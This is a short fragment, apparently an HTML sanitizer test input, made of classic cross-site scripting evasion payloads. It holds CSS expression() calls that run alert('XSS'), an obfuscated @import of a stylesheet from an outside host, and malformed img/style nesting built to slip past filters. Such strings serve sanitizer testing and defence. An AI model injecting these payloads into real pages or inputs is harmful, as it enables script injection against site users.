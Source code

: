 
<div style="width: expression(alert('XSS'));"><style>@im\port'http://\git\.bullsecurity\.co\/test.css';</style><img style="xss:expr/*XSS*/ession(alert('XSS'))"><img src="x"><style><img src="</style><img src="x">
